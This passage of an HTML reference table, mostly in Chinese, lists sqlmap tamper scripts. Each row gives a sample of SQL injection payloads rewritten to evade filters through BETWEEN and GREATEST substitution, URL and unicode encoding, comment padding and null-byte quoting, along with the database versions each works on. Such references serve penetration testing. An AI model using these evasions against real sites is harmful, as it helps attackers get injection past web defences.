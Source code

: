 替换大于号（&gt;）</td><td width="50">('1&nbsp;AND&nbsp;A&gt;&nbsp;B--')<br>'1&nbsp;AND&nbsp;A&nbsp;NOT&nbsp;BETWEEN&nbsp;0&nbsp;AND&nbsp;B--'</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>4</strong></td><td width="69">charencode.py</td><td width="227">url 编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM%20TABLE<br>*&nbsp;Output:&nbsp;%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>5</strong></td><td width="69">randomcase.py</td><td width="227">随机大小写</td><td width="50">*&nbsp;Input:&nbsp;INSERT<br>*&nbsp;Output:&nbsp;InsERt</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>6</strong></td><td width="69">charunicodeencode.py</td><td width="227">字符串&nbsp;unicode&nbsp;编码</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD%20FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2000<br>*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;5.1.56<br>*&nbsp;PostgreSQL&nbsp;9.0.3</td></tr><tr><td width="21"><strong>7</strong></td><td width="69">space2comment.py</td><td width="227">Replaces&nbsp;space&nbsp;character&nbsp;(‘&nbsp;‘)&nbsp;with&nbsp;comments&nbsp;‘/**/’</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;id&nbsp;FROM&nbsp;users<br>*&nbsp;Output:&nbsp;SELECT//id//FROM/**/users</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td rowspan="8" width="64">&nbsp;PostgreSQL</td><td width="18"><strong>1</strong></td><td width="147">greatest.py</td><td width="5">绕过过滤’&gt;’&nbsp;, 用 GREATEST 替换大于号。</td><td width="218">('1&nbsp;AND&nbsp;A&gt;&nbsp;B')<br>'1&nbsp;AND&nbsp;GREATEST(A,B+1)=A'</td><td width="101">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>2</strong></td><td width="69">apostrophenullencode.py</td><td width="227">绕过过滤双引号，替换字符和双引号。</td><td width="50">tamper("1&nbsp;AND'1'='1")<br>'1&nbsp;AND&nbsp;%00%271%00%27=%00%271'</td><td width="201">*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>3</strong></td><td width="69">between.py</td><td width="227">用 between 替换大于号（&gt;）</td><td width="50">('1&nbsp;AND&nbsp;A&gt;&nbsp;B--')<br>'1&nbsp;AND&nbsp;A&nbsp;NOT&nbsp;BETWEEN&nbsp;0&nbsp;AND&nbsp;B--'</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2005<br>*&nbsp;MySQL&nbsp;4,&nbsp;5.0&nbsp;and&nbsp;5.5<br>*&nbsp;Oracle&nbsp;10g<br>*&nbsp;PostgreSQL&nbsp;8.3,&nbsp;8.4,&nbsp;9.0</td></tr><tr><td width="21"><strong>4</strong></td><td width="69">percentage.py</td><td width="227">asp 允许每个字符前面添加一个 % 号</td><td width="50">*&nbsp;Input:&nbsp;SELECT&nbsp;FIELD&nbsp;FROM&nbsp;TABLE<br>*&nbsp;Output:&nbsp;%S%E%L%E%C%T&nbsp;%F%I%E%L%D&nbsp;%F%R%O%M&nbsp;%T%A%B%L%E<br>&nbsp;</td><td width="201">*&nbsp;Microsoft&nbsp;SQL&nbsp;Server&nbsp;2000,&nbsp;2005<br>*&nbsp;MySQL&nbsp;5.1.56,&nbsp;5.5.11<br>*&nbsp;PostgreSQL&nbsp;9.0</td></tr><tr><td width="21"><strong>5</strong></td><td width="69">charencode.py</td><td width="227">url
